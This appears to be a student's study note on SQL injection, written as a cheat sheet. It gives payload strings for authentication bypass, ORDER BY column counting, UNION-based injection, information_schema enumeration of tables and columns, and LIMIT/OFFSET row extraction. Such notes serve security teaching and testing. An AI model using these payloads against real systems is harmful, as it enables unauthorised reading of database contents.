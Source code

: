 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_name OFFSET 3; -- - 
```
- Using CONCAT to add two strings together
```
1' union select concat("hello", "world")
```
- Using the CHAR function to convert ASCII values to character values
```
PRINT 'a' + CHAR(9)  + 'b' -- horizontal tab 
PRINT 'a' + CHAR(10) + 'b' -- line feed 
PRINT 'a' + CHAR(11) + 'b' -- vertical tab 
PRINT 'a' + CHAR(13) + 'b' -- carriage return
```